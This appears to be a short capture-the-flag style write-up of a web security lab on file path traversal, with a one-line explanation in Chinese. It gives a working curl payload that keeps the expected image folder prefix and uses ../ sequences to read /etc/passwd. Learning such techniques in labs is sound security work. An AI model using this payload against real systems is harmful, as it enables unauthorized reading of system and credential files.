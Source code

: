 # Lab: File path traversal, validation of start of path

This lab contains a file path traversal vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file.

## LFI
* 題目說要 full file path 所以就留前面的 file path 之後用 ../ 回去到根目錄就可以了
```
payload = curl https://acd31f541e92b763c042653d00840084.web-security-academy.net/image\?filename\=/var/www/images/../../../../../../etc/passwd
```